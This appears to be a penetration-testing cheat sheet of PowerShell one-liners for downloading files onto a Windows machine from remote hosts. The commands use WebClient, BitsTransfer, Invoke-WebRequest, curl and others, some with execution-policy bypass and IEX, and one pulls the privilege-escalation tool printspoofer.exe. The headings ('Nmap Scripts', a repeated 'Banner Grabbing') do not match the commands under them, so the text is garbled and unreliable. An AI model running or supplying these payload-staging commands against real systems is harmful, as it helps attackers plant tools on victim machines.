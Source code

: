 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
     powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\demo.txt')

**Nmap Scripts**

       powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'c:\temp\1.txt'"

**Banner Grabbing**
	
        $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')

**Banner Grabbing**
	
        iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe

**Banner Grabbing**
	
        powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt')

**Banner Grabbing**
	
        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"

**Banner Grabbing**
	
        echo IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Banner Grabbing**
	
        powershell.exe -c wget "http://10.10.14.17/1.txt" -outfile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe -c "curl.exe http://192.168.1.143:80/1.txt c:\temp\1.txt"	

**Banner Grabbing**
	
        powershell.exe Invoke-RestMethod -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe Invoke-webRequest -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
        echo '$storageDir = $pwd' > wget.ps1
        echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
        echo '$url = "http://192.168.1.143/1.txt"' >> wget.ps1
        echo '$file = "c:\temp\1.txt"' >> wget.ps1
        echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
